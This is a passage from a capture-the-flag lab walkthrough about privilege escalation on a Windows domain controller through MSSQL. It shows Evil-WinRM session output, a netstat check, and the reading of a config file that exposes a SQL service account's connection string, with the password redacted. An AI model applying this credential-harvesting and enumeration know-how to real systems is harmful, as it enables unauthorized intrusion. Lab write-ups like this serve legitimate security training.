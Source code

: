 Given that we have read the root flag, we have now successfully compromised the machine using this method!

# PrivEsc Method #2 - MSSQL

I was also able to discover another method for privilege escalation on the machine, this attack being through MSSQL. If you'll notice in the `Users` directory, there seems to be another user on the machine.

```
*Evil-WinRM* PS C:\users> ls
Directory: C:\users

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         7/18/2023   6:09 AM                Administrator
d-----          7/6/2024   8:12 PM                mgtsvc$
d-r---         7/11/2023  12:36 AM                Public
d-----          7/6/2024   8:05 PM                sqlsvc
```

There seems to be a `sqlsvc` account, hinting that there may be an MSSQL service running on this machine. Let's do a `netstat` scan to see if our theory is correct.

```
*Evil-WinRM* PS C:\users> netstat -a
Active Connections
Proto  Local Address          Foreign Address        State
......
  TCP    0.0.0.0:1433           dc:0                   LISTENING
```

As you can see, an MSSQL service is indeed running on the machine.

What's interesting as well is that, during my initial enumeration of the filesystem, I found an interesting file that might hint towards an attack on MSSQL.

```
*Evil-WinRM* PS C:\config> ls
Directory: C:\config

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         7/11/2023   5:57 AM             78 .sqlconfig

*Evil-WinRM* PS C:\config> cat .sqlconfig
Server=dc.sendai.vl,1433;Database=prod;User Id=sqlsvc;Password=[...snip...];
```

We seem to have found a configuration file underneath `C:\config`, which is also hosted as an SMB share - although you won't have access to this share until you get access to `mgtsvc$`.

Now that we have a password for `sqlsvc`, what exactly can we do with this? At this point it would make sense to authenticate to their account using WinRM, however they are not a part of the `Remote Management Operators`. You will notice that they do have an SPN to MSSQL within Bloodhound.
